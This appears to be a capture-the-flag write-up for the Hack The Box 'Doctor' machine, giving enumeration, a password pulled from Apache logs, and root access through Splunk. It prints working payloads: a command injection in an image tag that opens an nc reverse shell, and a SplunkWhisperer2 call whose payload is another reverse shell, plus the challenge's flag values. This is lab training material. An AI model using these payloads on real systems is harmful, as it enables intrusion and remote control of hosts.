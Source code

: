 <pre>
Machine IP: 10.10.10.209

Enum:
    Open ports:
22/tcp   open  ssh      
80/tcp   open  ssl/http Apache/2.4.41 (Ubuntu)
8089/tcp open  ssl/http Splunkd httpd
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Splunkd


Go to the /etc/hosts and add:
    10.10.10.209    doctors.htb
http://doctors.htb/login?next=%2F => login page

    Go to register and create an account!
Go to new message change title with a new one and go for reverse shell:
    <img src=http://boxip/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'attackbox'$IFS’attaport')>
    $ nc -lvnp 9003


User flag:
$ cd    /var/log/apache2
$ backup
$ grep -r password?email
    *backup:10.10.14.4 - - [05/Sep/2020:11:17:34 +2000] "POST /reset_password?email=Guitar123" 500 453 "http://doctor.htb/reset_password"
$su shaun
$ password: Guitar123
User flag: /home/shaun

Priv Esc:
    *First download https://github.com/cnotin/SplunkWhisperer2 from git on your machine
    ! Make a nc listener 

    $ python PySplunkWhisperer2_remote.py --host 10.10.10.209 --lhost 10.10.14.89 --username shaun --password Guitar123 --payload "nc.traditional -e /bin/sh '10.10.14.89' '9002'"

    And got root!


User Flag: 006485ecedf8ff72b584ca87e57c0532
Root Flag: 267ebad127e4cc676902b28cfb61a711
</pre>
